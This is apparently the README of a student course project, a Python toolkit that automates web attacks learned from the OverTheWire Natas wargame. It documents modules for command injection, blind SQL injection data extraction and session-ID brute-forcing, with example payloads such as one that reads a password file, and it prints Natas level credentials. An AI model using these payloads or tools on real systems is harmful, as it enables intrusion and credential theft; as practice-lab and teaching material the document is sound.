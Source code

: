 
# Security Engineering Toolkit: An Automated Vulnerability Prober

## Overview

This project is the primary output of a Security Engineering course project. It began as a deep-dive analysis into the OverTheWire Natas wargames and evolved into the creation of a modular, Python-based security toolkit designed to intelligently automate the discovery and exploitation of common web vulnerabilities.

The core philosophy of this toolkit is to move beyond simple, blind exploitation and implement more intelligent, analysis-driven automation. Each module was directly inspired by a specific challenge encountered during the Natas wargames, translating theoretical knowledge into a practical, reusable tool.

## Features

-   **Intelligent OS Command Injection Prober:** Uses a response-diffing algorithm to precisely detect the output of injected commands, reducing false positives.
-   **Boolean-Based Blind SQLi Exfiltrator:** Automates the character-by-character exfiltration of data when only a "true" or "false" response is available from the server.
-   **Time-Based Blind SQLi Exfiltrator:** Exploits time-based side channels to exfiltrate data from completely "blind" injection points where no visible output is provided.
-   **Session ID Brute-Forcer:** A specialised tool to exploit weak session ID generation, capable of handling both simple numeric and hex-encoded session tokens.

## Prerequisites & Setup

The toolkit is designed to run on Python 3.9+ and requires the `requests` library.

1.  **Clone the repository:**
    ```bash
    git clone https://github.com/ScottyPoon/nata-probe.git
    cd nata-probe
    ```

2.  **Create and activate a virtual environment (recommended):**
    ```bash
    python -m venv venv
    source venv/bin/activate
    ```

3.  **Install the required dependencies:**
    ```bash
    pip install -r requirements.txt
    ```

## Usage

The toolkit is operated from `main.py` with a clear command structure.

### General Help

To see the main commands (`inject`, `session`), use the help flag:
```bash
python main.py -h
```
To see the options for a specific subcommand, like `inject`:
```bash
python main.py inject -h
```

---

### Module 1: OS Command Injection (`cmd`)

This module tests for OS command injection vulnerabilities. It intelligently compares a baseline response with the exploit response to confirm success.

**Example Command (for Natas 9):**
```bash
python main.py inject cmd http://natas9.natas.labs.overthewire.org/ \
    -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" \
    --param needle \
    --payload "; cat /etc/natas_webpass/natas10 #"
```

**Argument Breakdown:**
-   `inject cmd`: Specifies the command injection module.
-   `-u "user:pass"`: Sets the basic authentication credentials.
-   `--param needle`: The name of the vulnerable parameter in the request.
-   `--payload "..."`: The specific malicious payload to inject. The `#` is used to comment out the rest of the original command.

---

### Module 2: Boolean-Based Blind SQL Injection (`sqli-bool`)

This module automates the painstaking process of exfiltrating data when the only feedback is a "success" or "failure" message.

**Manual Analysis (The process the tool automates):**
The tool automates the process of checking each character. For example, to manually check if the password starts with 'a' and then 'h':
```sql
natas16" AND password LIKE BINARY "a%" -- -
natas16" AND password LIKE BINARY "h%" -- -
```

**Example Command (for Natas 15):**
```bash
python main.py inject sqli-bool http://natas15.natas.labs.overthewire.org/ \
    -u "natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" \
    --data "username=natas16" \
    --param-to-fuzz username \
    --success-string "This user exists"
```

**Argument Breakdown:**
-   `inject sqli-bool`: Specifies the boolean-based SQLi module.
-   `--data "username=natas16"`: The POST data to send. The tool will inject into this data.
-   `--param-to-fuzz "username"`: The specific key within the `--data` dictionary to inject into.
-   `--success-string "..."`: **Crucial.** This is the exact text the tool looks for in the response to confirm a "true" condition.

---

### Module 3: Time-Based Blind SQL Injection (`sqli-time`)

This module is for the most difficult scenarios where there is no visible feedback. It infers data based on server response delays.

**Example Command (for Natas 17):**
```bash
python main.py inject sqli-time http://natas17.natas.labs.overthewire.org/ \
    -u "natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC" \
    --data "username=natas18" \
    --param-to-fuzz username \
    --sleep-time 3 \
    --max-len 32
```

**Argument Breakdown:**
-   `inject sqli-time`: Specifies the time-based SQLi module.
-   `--sleep-time 3`: The number of seconds to ask the database to `SLEEP()`. Choose a value high enough to be clearly distinguishable from normal network latency.
-   `--max-len 32`: The maximum password length to test for. The script first determines the exact length before exfiltrating characters.

---

### Module 4: Session ID Brute-Forcer (`session`)

This module exploits predictable session ID generation schemes.

**Example Command - Simple Integers (for Natas 18):**
```bash
python main.py session http://natas18.natas.labs.overthewire.org/ \
    -u "natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin"
```

**Example Command - Hex-Encoded (for Natas 19):**
```bash
python main.py session http://natas19.natas.labs.overthewire.org/ \
    -u "natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin" \
    --hex-encode
```

**Argument Breakdown:**
-   `session`: Specifies the session brute-force module.
-   `--range "1:640:1"`: The range to test, in `start:stop:step` format.
-   `--template "PHPSESSID=^PASS^"`: The cookie structure. `^PASS^` is the placeholder that will be replaced with the generated ID.
-   `--hex-encode`: An optional flag that enables the specific logic for Natas 19 (encodes `[ID]-admin` to hex).

